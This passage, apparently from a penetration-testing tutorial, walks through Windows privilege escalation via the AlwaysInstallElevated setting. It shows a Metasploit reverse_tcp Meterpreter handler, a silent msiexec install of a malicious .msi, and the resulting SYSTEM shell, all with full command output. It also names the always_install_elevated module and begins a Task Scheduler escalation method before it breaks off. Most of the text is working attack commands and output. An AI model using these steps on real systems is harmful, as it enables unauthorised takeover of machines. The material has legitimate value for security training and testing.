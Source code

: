 ```
Before executing the .msi file, start a new handler on another terminal window for brand new hi-priv shell:
```
msf > use exploit/multi/handler 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.2.60
lhost => 192.168.2.60
msf exploit(handler) > set lport 8989
lport => 8989
msf exploit(handler) > run
[*] Started reverse TCP handler on 192.168.2.60:8989 
[*] Starting the payload handler...
```
Now we’re ready to execute!
```
meterpreter > shell
Process 1260 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\AppData\Local\temp>msiexec /quiet /qn /i malicious.msi 
msiexec /quiet /qn /i malicious.msi
C:\Users\testuser\AppData\Local\temp>
```
* /quiet = Suppress any messages to the user during installation
* /qn = No GUI
* /i = Regular (vs. administrative) installation

Enjoy your shell with SYSTEM privileges!
```
[*] Started reverse TCP handler on 192.168.2.60:8989 
[*] Starting the payload handler...
[*] Sending stage (957999 bytes) to 192.168.2.236
[*] Meterpreter session 1 opened (192.168.2.60:8989 -> 192.168.2.236:36071) at 2016-12-21 04:21:57 -0500
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
Instead of manually applying this technique you can use this metasploit module:` exploit/windows/local/always_install_elevated`

This module only requires that you link it to an existing Meterpreter session before running:
```
msf > use exploit/windows/local/always_install_elevated
msf exploit(always_install_elevated) > show options
Module options (exploit/windows/local/always_install_elevated):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.
```
## Privilege Escalation with Task Scheduler
This method only works on a Windows 2000, XP, or 2003 machine. You must have local administrator privileges to manage scheduled tasks. If you have meterpreter session with limited user privileges this method will not work.

On Windows 2000, XP, and 2003 machines, scheduled tasks run as SYSTEM privileges. That means if we create a scheduled task that executes our malicious executable, it will run as SYSTEM. 😉

Again, I’ll generate an executable reverse shell payload for this job. Let’s demonstrate!

Generating an executable reverse shell payload:
```